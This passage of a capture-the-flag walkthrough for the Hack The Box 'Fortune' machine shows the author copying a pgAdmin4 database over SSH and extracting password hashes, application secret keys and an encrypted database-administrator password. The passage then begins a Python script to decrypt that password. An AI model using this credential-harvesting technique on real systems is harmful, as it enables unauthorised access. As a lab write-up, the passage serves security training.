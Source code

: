 ```
root@kali:~/Desktop/HTB/boxes/fortune/ssh# scp -i id_rsa charlie@fortune.htb:/var/appsrv/pgadmin4/pgadmin4.db ../
pgadmin4.db                                                                                                                                                                      100%  116KB   7.7KB/s   00:15    
root@kali:~/Desktop/HTB/boxes/fortune/ssh# 
```
<br> Then I used `strings` to see if I can get anything interesting :
```
root@kali:~/Desktop/HTB/boxes/fortune# strings pgadmin4.db
SQLite format 3
indexsqlite_autoindex_debugger_function_arguments_1debugger_function_arguments

----------------
 Removed Output
----------------

ConfigDB
	ConfigDB
bob@fortune.htb$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg
charlie@fortune.htb$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ
bob@fortune.htb
3	charlie@fortune.htb

----------------
 Removed Output
----------------

9eSECURITY_PASSWORD_SALTqIhAhRt3xq_dzIEqyJQFmWnymFbO1cZVhbQaTWA-v9Q=9
!eSECRET_KEYR_EFY1hb236guS3jNq1aHyPcruXbjk7Ff-QwL6PMqJM=?
-eCSRF_SESSION_KEYsaQWKx5BCyVZMH2weOiNv3Dsvzh4GchPM16kwBRYPxs=

----------------
 Removed Output
----------------

8postgresdbautUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGzprefer<STORAGE_DIR>/.postgresql/postgresql.crt<STORAGE_DIR>/.postgresql/postgresql.key22

----------------
 Removed Output
----------------
```
<br> I got some salted hashes, and most importantly this :
```
postgresdba utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
```
<br> This is the db administrator's password hash and we know that it's the same as the root password.
<br> `pgadmin` is an open-source software so I searched on `github` for any cryptography related stuff and found this script called [`crypto.py`](https://github.com/postgres/pgadmin4/blob/master/web/pgadmin/utils/crypto.py).
<br> I took the functions needed to decrypt the hash then I created a script to take the hash/the key and decrypt the hash using the functions from `crypto.py`:
```
#!/usr/bin/python
from __future__ import division
import base64
import hashlib
import os
import six
from cryptography.hazmat.backends import default_backend
```